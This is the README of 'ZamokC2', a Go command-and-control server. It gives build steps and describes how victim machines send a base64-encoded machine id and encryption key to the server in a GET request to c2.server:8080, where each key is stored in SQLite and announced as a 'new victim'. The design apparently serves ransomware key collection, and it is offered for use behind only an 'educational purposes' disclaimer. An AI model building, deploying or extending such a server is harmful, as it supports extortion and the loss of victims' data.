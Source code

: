 # ZamokC2
A simple but effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
You can now start it by simply running :
    ```
    \./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - c2.server is the URL or IP Address where the C2 is running
    - SOME_STRING is a base64 string of a unique victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaks down the request and gets the 2 values : the id and the key
5. It saves these values to an SQLite database locally 
6. It displays a banner on the terminal, with the details of the new victim machine

## Warning :
This project is for educational purposes only, and I will not be responsible for \
anything malicious you do with it !